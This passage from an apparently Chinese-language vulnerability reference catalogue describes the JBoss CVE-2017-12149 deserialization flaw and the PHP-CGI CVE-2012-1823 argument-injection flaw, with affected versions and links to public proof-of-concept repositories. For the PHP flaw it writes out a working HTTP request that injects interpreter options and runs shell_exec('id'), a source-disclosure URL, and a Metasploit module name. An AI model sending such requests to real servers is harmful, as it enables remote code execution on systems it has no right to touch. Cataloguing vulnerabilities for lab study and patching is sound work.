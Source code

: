 - POC | Payload | exp
    - [Red Hat JBoss EAP - Deserialization of Untrusted Data](https://www.exploit-db.com/exploits/40842)

**CVE-2017-12149 JBoss 5.x/6.x 反序列化漏洞**
- 简介

    该漏洞为 Java 反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

- 影响版本
    - JBOSS 5.0.0 ~ 5.2.2

- POC | Payload | exp
    - [yunxu1/jboss-_CVE-2017-12149](https://github.com/yunxu1/jboss-_CVE-2017-12149)
    - [jreppiks/CVE-2017-12149](https://github.com/jreppiks/CVE-2017-12149)
    - https://github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-12149

---

## PHP

**CVE-2012-1823 PHPCGI 远程代码执行漏洞**
- 简介

    5.3.12 之前和 5.4.2 之前的 5.4.x 中的 sapi/cgi/cgi_main.c 在配置为 CGI 脚本（aka php-cgi）时，不能正确处理缺少=（等号）字符的查询字符串 ，它允许远程攻击者通过在查询字符串中放置命令行选项来执行任意代码，这与在"d"情况下缺少跳过某些 php_getopt 有关。

- 影响版本

    - php < 5.3.12
    - php < 5.4.2

- 文章
    - [PHP-CGI远程代码执行漏洞 (CVE-2012-1823) 分析](https://paper.seebug.org/297/)

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/php/CVE-2012-1823/

    `http://你的 IP 地址:端口号/index.php?-s` 即爆出源码

    发送如下数据包,可见 Body 中的代码已被执行:
    ```
    POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
    Host: example.com
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31

    <?php echo shell_exec("id"); ?>
    ```

- MSF Module
    ```
    use exploit/multi/http/php_cgi_arg_injection
    ```
